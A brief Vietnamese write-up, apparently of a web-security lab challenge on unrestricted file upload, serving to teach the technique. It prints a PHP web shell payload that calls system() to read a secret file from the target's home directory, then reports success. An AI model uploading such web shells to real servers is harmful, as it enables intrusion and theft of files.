 ![image](https://github.com/user-attachments/assets/f3f88197-9e43-4328-af83-5242fa5cc770)

Bắt đầu challenge thì ta có thể thấy được rằng đơn giản chỉ là challenge bắt đầu thôi chứ nó cũng chả có gì hot.

Tiến hành up file shell .php lên v:

Payload:

```
<?php
system("cat /home/carlos/secret");
```

![image](https://github.com/user-attachments/assets/1da9c4e9-388f-478d-bdfa-1468507ce7a2)

![image](https://github.com/user-attachments/assets/1147586d-4af5-44cf-a30f-f2c9b463520e)

Thành công
